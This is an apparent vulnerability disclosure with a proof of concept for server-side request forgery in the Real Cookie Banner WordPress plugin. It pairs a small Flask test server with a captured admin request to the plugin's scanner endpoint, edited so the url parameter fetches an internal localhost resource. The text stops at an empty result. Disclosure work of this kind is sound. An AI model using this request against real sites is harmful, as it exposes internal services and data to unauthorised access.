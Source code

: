 ## Exploit

### Local Server

Create a simple local service with Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "metadata": "Internal service data"
}
```

### Proof of Concept (PoC)

1. Use the scanner feature and route requests through BurpSuite with an Administrator user.

2. Capture the request to `/wp-json/real-cookie-banner/v1/scanner/scan-without-login`.

3. Modify the URL and forward:

```http
GET /wp-json/real-cookie-banner/v1/scanner/scan-without-login?_v=1761578838&_locale=user&url=http://localhost:8001/metadata&jobId=65 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, */*;q=0.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/admin.php?page=real-cookie-banner-component
X-WP-Nonce: 83df92a708
Connection: keep-alive
Cookie: wp-settings-time-2=1761542750; wordpress_test_cookie=WP%20Cookie%20check; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1761754193%7CRyskfS8SL8JqeXoDqo9gGiN5eiEbjBx5EZ73dRIjmyt%7C19f099619d5257dcc6f5828078065f2e92c2945b71c28fea0d11612e83c42ec6; wp-settings-time-1=1761581951
```

**Result**:
